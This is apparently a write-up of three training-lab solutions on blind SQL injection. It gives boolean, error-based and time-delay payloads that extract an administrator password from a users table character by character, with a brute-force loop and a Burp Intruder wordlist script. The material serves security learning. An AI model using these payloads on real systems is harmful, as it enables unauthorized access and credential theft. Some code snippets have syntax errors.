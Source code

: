 # Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab #11: Blind SQL injection with conditional responses
> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
> 
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
>
> To solve the lab, log in as the administrator user. 

Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 

Example injected SQL query with `' AND '1'='1`:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message
```
' AND '1'='1
' AND '1'='2 
```

3. Determine password length
```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password
```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
index = 1 
while True:
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	resp = requests.get(url, cookies)
	if resp contains "welcome":
		password += char
		index += 1
		
```
Automated script in the scripts folder.

## Lab #12: Blind SQL injection with conditional errors
>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
> 
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
>
> To solve the lab, log in as the administrator user. 

Steps:
1. Determine the database version

```
TrackingId=abc' ORDER BY 1 --
TrackingId=abc' UNION SELECT banner FROM v$version --
```

2. Error test  

```
# returns no error:
TrackingId=abc' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a 

# returns error:
' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
' AND (SELECT CASE WHEN (SUBSTR('administrator',1,1)='b') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

3. Figuring out how the oracle query works.
```
# return errors
# means it's false, password not started with A.
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users where username='administrator'),1,1)='A') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

4. Determine password length
```
# returns error (TRUE that password length is lower than 21):
' AND (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') < 21) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

# returns error (TRUE that password length is greater than 8)
' AND (SELECT CASE WHEN (LENGTH(SELECT password FROM users WHERE username='Administrator') > 8) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

5. Brute force.
```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),§P1§,1) = '§P2§') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

### Exploit with Burpsuite Intruder
P1 = Index = 1-21  
P2 = Chars = 0-9+a-z+A-Z

Create wordlist using python

```python
import string

p1=list(range(1,21)) # [1,2,3...,19, 20]
p2=string.digits+string.ascii_letters # [012..abc..XYZ]

# Payload for p1
for i in range p1:
	print(i)

for c in range p2:
	print(c)
```

Paste wordlist to Burpsuite intruder, use P1 in payload 1, P2 in payload 2.

### Exploit with custom python script 
https://gist.github.com/fahmifj/13d055117f729a233a8f4ccbefdb1680


## Lab #13: Blind SQL injection with time delays
> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
> 
> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.  

Assume the query is:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Since it's a blind sql, using Payload list is my first option
```
' AND 5=(SELECT 5 FROM PG_SLEEP(10))
``` 

And here is the lab solution using string concatenation.
```
'||pg_sleep(10) --
```

### Reference
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based

